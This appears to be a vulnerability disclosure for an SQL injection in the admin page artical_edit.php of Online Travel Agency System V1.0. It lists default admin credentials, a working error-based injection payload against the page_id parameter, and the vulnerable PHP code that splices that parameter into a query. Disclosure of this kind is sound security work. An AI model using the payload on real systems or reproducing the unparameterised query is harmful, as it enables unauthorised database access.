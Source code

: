# [Online Travel Agency System-SQL Injection-artical_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/artical_edit.php?page_id=22`    

**[Vulnerability Location]:** Travel/admin/artical_edit.php

**[Vulnerability Test]:**

1. payload:`page_id=22%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428165830.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/artical_edit.php

```php
<?php

$page_id=$_GET['page_id'];
  $sql="select * from pages where page_id='$page_id'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
$row=mysqli_fetch_array($result);
	  
	  $title=$row["title"];
	  $description=$row["description"];

?>
```

The GET parameter `page_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.


